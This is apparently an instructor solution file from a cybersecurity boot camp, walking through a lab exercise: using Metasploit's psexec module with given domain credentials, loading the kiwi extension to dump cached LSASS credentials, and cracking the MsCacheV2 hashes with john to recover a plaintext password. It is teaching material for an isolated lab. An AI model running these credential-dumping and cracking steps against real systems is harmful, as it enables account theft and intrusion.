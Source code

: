 ## Activity File: Credential Dumping

In this activity, you used the Metasploit `kiwi` extension to dump the credentials cached on the WIN10 machine.

### Instructions

1. Load the `psexec` module: `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
3. Run the module with `run`.

4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

     ![A screenshot depicts the results of the command.](loadkiwi.PNG)

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

     ![A screenshot depicts the results of the command.](kiwi.PNG)

6. Dump all the cached credentials from LSASS using a `kiwi_cmd` command. 
	 
	 - `kiwi_cmd lsadump::cache`
	 
	 ![A screenshot depicts the results of the command.](lsadump.PNG)

7. In the output, the hashes are displayed after the "MsCacheV2 field." MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`.
	
	-	Using `john`, attempt to crack the password. Your `john` command should use the flag `--format=mscash2`, e.g., `john --format=mscash2 hashes.txt`.

	![Image of the hash being cracked with john.](john.PNG)

8. You should now have the plain-text password to the new account bbanner.

	- 	`bbanner:Winter2021`
                                                                                                                               
---
&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.




